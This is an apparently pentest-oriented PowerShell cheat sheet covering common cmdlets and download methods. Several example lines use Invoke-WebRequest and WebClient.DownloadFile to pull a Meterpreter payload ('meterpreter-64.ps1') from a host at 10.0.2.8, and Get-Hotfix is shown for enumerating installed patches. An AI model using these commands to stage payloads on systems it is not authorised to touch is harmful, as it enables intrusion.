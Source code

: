 A cmdlet is simply a command through which you can perform an action. The two most helpful cmdlets that everyone should be aware of are:

* Get-Command
* Get-Help

Using the cmdlet ‘Get-Command’, you can find all the available cmdlets even if you do not know the exact cmdlet. For example, you want to restart a service from PowerShell, but you do not know the cmdlet. Although you can assume that it may contain the word ‘service’.

Common verbs:

* Get
* Start
* Stop&#x20;
* Read
* Write
* New
* Out

Full list of approved verbs can be found [here](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7).

## Commands

* `Get-Help` shows information about a cmdle&#x74;_._ `Get-Help Command-Name`
* `Get-Command` - Gets all the cmdlets installed on the current Computer. This cmdlet allows for pattern matching such as `Get-Command Verb-*` or `Get-Command *-Noun`
* `The Pipe( | )` - Used to pass output from one cmdlet to another. Eg. `Verb-Noun | Get-Member`&#x20;
* `Invoke-Webrequest` - Makes a request to a webserver. Sends HTTP and HTTPS requests to a web page or web service. It parses the response and returns collections of links, images, and other significant HTML elements. More info can be found [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2).
  * Download a file: `Invoke-WebRequest -URI http://(IP):(PORT)/(FILE) -Outfile (FILE)`
  * `Invoke-WebRequest "URL/File" -OutFile "File"`
    * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`
* `Invoke-Expression` - Evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.
* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`
* `Get-Hotfix` - Enumerate already installed patches
  * `Get-Hotfix | Format-list | findstr InstalledOn`
  * `Get-Hotfix | Format-Table HotFixID`
* `Format-List` - Used to gather more information about objects
  * `dir | Format-List`
* `Out-File` - Used to save the output to a file for further use
  * `Get-Hotfix | Out-File Hotfixes.txt`
* `Start-Process` - Used to start a process, such as notepad.
* `Get-Process` - Lists all running processes. Can also be used with the `-name` parameter to filter for a specific process
* `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.
* `Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.
* `Copy-Item` - Copies and item
* `Move-Item` - Moves and item
* `Get-FileHash` - Obtains file hash of specified file
